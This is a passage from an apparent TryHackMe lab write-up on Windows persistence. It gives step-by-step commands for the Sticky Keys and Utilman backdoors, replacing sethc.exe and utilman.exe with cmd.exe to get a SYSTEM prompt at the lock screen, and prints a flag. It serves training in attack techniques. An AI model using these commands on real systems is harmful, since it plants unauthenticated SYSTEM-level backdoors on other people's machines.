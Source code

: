 ```PowerShell
C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): Yes
        1 file(s) copied.
```
5. After successfully executing the preceding commands, we'll lock our screen and then active Sticky Keys by pressing **SHIFT** five times on our keyboard, which ended up opening a command prompt with SYSTEM privileges

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Sticky%20Keys%20pt.3.png) 

6. `C:\flags\flag14.exe` from our open command promp on the compromised Windows machine's lockscreen to execute the **flag14.exe** program, which ended up displaying the flag for this task onto our terminal 
```PowerShell
C:\Windows\system32>C:\flags\flag14.exe
THM{BREAKING_THROUGH_LOGIN}
```


#
## Utilman

1. Started this room's machine
2. `takeown /f c:\Windows\System32\utilman.exe` from the compromised Windows machine to take ownership of, which we're doing as Administrator, the **utilman.exe** (Utility Manager) program, which is responsible for managing various accessibility features and utilities in Windows, such as Windows' **Ease of Access** options during the lockscreen
```PowerShell
C:\Users\Administrator>takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "WPERSISTENCE\Administrator".
```
3. `icacls C:\Windows\System32\utilman.exe /grant Administrator:F` from the compromised Windows machine to grant the Administrator full control to the **utilman.exe** program, which allowed us to modify the executable binary that will execute after acessing the **Ease of Access** options during the compromised Windows machine's lockscreen
```PowerShell
C:\Users\Administrator>icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files
```
4. `copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe` from the compromised Windows machine to replace the **utilman.exe** file with the **cmd.exe** file so that a command prompt will open up when pressing on the **Ease of Access** option at the compromised machine's lockscreen instead of the **utilman** being executed 
```PowerShell
C:\Users\Administrator>copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): Yes
        1 file(s) copied.
```
5. After successfully executing the previous commands, we locked our screen and then click on the "**Ease of Access**" button, which ended up opening up a command prompt with SYSTEM privileges that verified by executing the`whoami` command, which was the case
